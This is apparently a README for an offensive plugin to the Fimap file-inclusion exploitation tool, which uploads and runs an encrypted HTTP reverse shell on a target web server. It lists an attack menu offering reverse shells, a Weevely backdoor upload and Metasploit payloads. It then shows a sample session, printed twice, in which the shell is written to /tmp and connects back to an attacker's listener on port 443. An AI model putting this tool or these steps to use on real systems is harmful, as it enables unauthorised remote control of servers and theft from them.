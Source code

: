 AES-Shell-Injector - Fimap Plugin that allows you to inject an AES HTTP Reverse Shell

Author:    Darren "Infodox" Martyn.
Email:     infodox@insecurety.net
Twitter:   twitter.com/info_dox
Site:      http://insecurety.net/
Usage:     Just add this to the plugins folder in Fimap, should work fine as-is.

NOTE: The AES-Reverse listener is in the "listener" folder...

Example:
```
######################################################################################
#:: Available Attacks - PHP and SHELL access ::                                      #
######################################################################################
#[1] Spawn fimap shell                                                               #
#[2] Spawn pentestmonkey's reverse shell                                             #
#[3] [Upload Weevely] Uploads a Weevily Backdoor                                     #
#[4] [AES HTTP Reverse Shell Injector] Uploads and runs an AES HTTP Reverse shell    #
#[5] [msf_bindings] Executes MSF reverse payloads                                    #
#[6] [Test Plugin] Show some info                                                    #
#[7] [reverse http shell] Loads a reverse HTTP shell                                 #
#[q] Quit                                                                            #
######################################################################################
Choose Attack: 4
Uploading shell to /tmp/shell.py  ...
Uploaded 5128 bytes
Hope you have the listener running... Time to input your infoes :)
IP of listener?: 127.0.0.1
Port of listener?: 443
Executing the shell! Sending reverse shell to 127.0.0.1 443
######################################################################################
#:: Available Attacks - PHP and SHELL access ::                                      #
######################################################################################
#[1] Spawn fimap shell                                                               #
#[2] Spawn pentestmonkey's reverse shell                                             #
#[3] [Upload Weevely] Uploads a Weevily Backdoor                                     #
#[4] [AES HTTP Reverse Shell Injector] Uploads and runs an AES HTTP Reverse shell    #
#[5] [msf_bindings] Executes MSF reverse payloads                                    #
#[6] [Test Plugin] Show some info                                                    #
#[7] [reverse http shell] Loads a reverse HTTP shell                                 #
#[q] Quit                                                                            #
######################################################################################
Choose Attack: 4
Uploading shell to /tmp/shell.py  ...
Uploaded 5128 bytes
Hope you have the listener running... Time to input your infoes :)
IP of listener?: 127.0.0.1
Port of listener?: 443
Executing the shell! Sending reverse shell to 127.0.0.1 443

> Make sure your listener is running. I set it to use Port 443, you can edit the listener source in listener/server.py tto change this. 

```

### Known Issues ###
* This plugin does NOT yet auto connect, as my normal method of popping an XTERM to connect did not seem like a great idea.
* This plugin is still in Beta. Report any bugs in my code, PLEASE!

### Greetings and Credits ###
imax for writing Fimap!
Dave rel1k for writing the reverse shell
ohdae for one-upping all my post-pwnage ideas and writing Intersect :P
pr0f for inspiration in general.
eipwner also for being idea-causing
v0rbis for making me feel like I had to do something
